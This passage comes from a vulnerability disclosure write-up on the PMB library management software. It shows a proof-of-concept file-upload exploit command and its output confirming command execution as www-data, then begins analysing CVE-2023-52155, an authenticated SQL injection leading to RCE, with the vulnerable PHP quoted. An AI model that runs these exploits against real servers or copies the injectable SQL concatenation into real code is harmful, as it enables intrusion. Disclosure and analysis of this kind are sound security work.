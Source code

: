 After executing it, by passing a list of session identifiers, the PHTML file is uploaded and the "id" command is executed.

```bash
root@ubuntu:/var/www/html/pocs# python3 File-Upload-7.4.6-camera_upload.py --sessid_list 1293437551 8679922718 3239147683 3324994107 --command "id" http://127.0.0.1/pmb/
 PNG

IHDRuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

### CVE-2023-52155: SQL Injection to RCE in /admin/sauvegarde/run.php

To conclude the vulnerability research, an attempt was made to find a more immediate way to achieve remote command execution. After reviewing several invocations of functions such as **“eval”** and **“exec”**, the possibility of obtaining a command injection through an authenticated SQL Injection was identified.

```php
/admin/sauvegarde/run.php
11  require($base_path."/includes/init.inc.php");
```

In the code snippet above, **"/includes/init.inc.php"** initializes the inclusion of multiple PHP files. An interesting file that was included is **"/pmb/includes/global_vars.inc.php"**, which seems to implement code to emulate PHP's deprecated register_globals by defining global variables based on GET parameters.

```php
/pmb/includes/global_vars.inc.php
170  foreach ($_GET as $__key__PMB => $val) {
171    if (!in_array($__key__PMB,$forbidden_overload)) {
172      $val = cp1252_normalize($val);
173      add_sl($val);
174      $GLOBALS[$__key__PMB] = $val;
175    }
176  }
```

Following with the code review, on line 34 (referring to a code section of the **/admin/sauvegarde/run.php** file), the code sets the variable **$currentSauv** to the value of the first element in the **$sauvegardes** array.

```php
/admin/sauvegarde/run.php
34 $currentSauv=$sauvegardes[0];
```

In the following code snippet, on line 45, a SQL query is formed by concatenating the variable **$currentSauv** directly into the query string.

```php
/admin/sauvegarde/run.php
45  $requete = "select sauv_sauvegarde_nom, sauv_sauvegarde_file_prefix, sauv_sauvegarde_tables, sauv_sauvegarde_compress,sauv_sauvegarde_compress_command, sauv_sauvegarde_crypt from sauv_sauvegardes where sauv_sauvegarde_id=".$currentSauv;
46  $resultat = pmb_mysql_query($requete);
47  $res = pmb_mysql_fetch_object($resultat);
```
